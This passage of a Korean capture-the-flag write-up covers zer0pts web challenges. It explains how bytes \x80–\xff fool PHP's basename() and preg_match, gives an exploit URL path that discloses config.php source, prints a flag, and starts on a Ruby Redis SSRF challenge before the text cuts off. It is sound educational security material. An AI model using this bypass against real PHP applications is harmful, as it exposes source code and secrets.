 그러다 구글링을 하다가 [여기서](https://ngaa.tistory.com/m/46?category=776250) 신기한 것을 발견했습니다. basename 함수에 \x80-\xff 범위의 값 중 하나만 들어오면 그 값은 무시한다는 것을 알 수 있었습니다.
```
php > echo basename("/index.php/config.php");
config.php
php > echo basename("/index.php/config.php/\xbb");
config.php
php > echo basename("/index.php/config.php/\xab");
config.php
php > echo basename("/index.php/config.php/\xff");
config.php
```
테스트를 해본 결과 \x80-\xff 범위의 값을 모두 무시하는 것을 확인할 수 있었습니다. 그리고 저 범위의 값들이 prge_match에 들어가도 우회가 됩니다.

<span style="color:#631F9C">&#62;</span> Exploit
```
/index.php/config.php/%aa?source
```
위 path로 접근을 해주면 preg_match(), basename() 함수를 우회해 config.php의 소스 코드를 볼 수 있습니다.

> FLAG : zer0pts{gu3ss1ng_r4nd0m_by73s_1s_un1n73nd3d_s0lu710n}

---

## (Web) urlapp [435pts]

> urlapp 문제는 루비로 작성된 Redis 서비스에서 Redis SSRF 취약점을 주제로한 문제입니다. 하지만 왠지 모르게 익스를 계속 시도해도 set 명령어가 제대 인식이 되지 않는 거 같다.
```ruby

(생략)

def set(sock, key, value)
  query(sock, "SET #{key} #{value}")
  return recv(sock) == "OK"
end

def get(sock, key)
  query(sock, "GET #{key}")
  return recv(sock)
end

before do
  sock = connect()
  set(sock, "flag", File.read("flag.txt").strip)
end

get '/' do
  if params.has_key?(:q) then
    q = params[:q]
    if not (q =~ /^[0-9a-f]{16}$/)
      return
    end

    sock = connect()
    url = get(sock, q)
    redirect url
  end

  send_file 'index.html'
end

post '/' do
  if not params.has_key?(:url) then
    return
```